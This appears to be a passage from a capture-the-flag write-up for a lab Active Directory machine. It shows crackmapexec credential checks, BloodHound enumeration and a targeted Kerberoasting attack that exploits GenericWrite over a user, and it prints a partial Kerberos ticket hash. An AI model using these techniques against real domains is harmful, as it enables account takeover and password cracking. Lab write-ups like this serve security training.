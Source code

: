 ```
└─$ crackmapexec smb 10.10.87.35 -u 'A.Briggs' -p '[...snip...]'
SMB         10.10.87.35     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         10.10.87.35     445    DC1              [+] delegate.vl\A.Briggs:[...snip...]

└─$ crackmapexec ldap 10.10.87.35 -u 'A.Briggs' -p '[...snip...]'
SMB         10.10.87.35     445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
LDAP        10.10.87.35     389    DC1              [+] delegate.vl\A.Briggs:[...snip...]
```

It seems as though this is a valid domain user, who has access to both LDAP and SMB. Since we have access to LDAP, we can dump the domain as this user to view all of the domain objects. Let's use Bloodhound with the [Python ingestor](https://github.com/dirkjanm/BloodHound.py) to do this.

```
└─$ bloodhound-python -d 'delegate.vl' -u 'A.Briggs' -p '(A.BRIGGS PASSWORD)' -c all -ns 10.10.87.35 --zip
```

This should return a compressed archive containing all of the domain objects within the AD environment. We'll start up `neo4j` along with the `Bloodhound` GUI in order to view this in a graph.

# GenericWrite over N.Thompson

I did some initial enumeration of the domain objects, specifically the node for `A.Briggs` and what they have access to. It seems they have an interesting outbound object control on another node.

![](/images/vulnlab/delegate-vl/b.png)

From the screenshot above, it seems as though we have GenericWrite over the user `N.Thompson`.

This is much different than what we know about having GenericWrite or GenericAll on a node in the past. For some of my other writeups, we often had these privileges on a domain computer. The process for exploiting this against a domain user is much different - though it is simpler in my opinion.

If we have GenericWrite over a domain user object, there is a Kerberos exploit we could do. We could perform [targeted Kerberoasting](https://github.com/ShutdownRepo/targetedKerberoast) on the domain object to request a TGS on behalf of them. This TGT will be encrypted with their password, which we can attempt to crack offline.

You can do this with the GitHub repository provided above. An example command can be found below.

```
└─$ python3 targetedKerberoast.py -d 'delegate.vl' -u 'A.Briggs' -p '(A.BRIGGS PASSWORD)' --request-user 'N.Thompson'
[*] Starting kerberoast attacks
[*] Attacking user (N.Thompson)
[+] Printing hash for (N.Thompson)
$krb5tgs$23$*N.Thompson$DELEGATE.VL$delegate.vl/N.Thompson*$99c33fd94eb13970a6963667b7589c0a$29314c913d36f[...snip...]88b9ec9b2f6cd7e7f190edb308d9f
```

As you can see, this returned a valid TGS for the `N.Thompson` user. I did not need to update any of the dependencies needed for this, though it may be different for you.
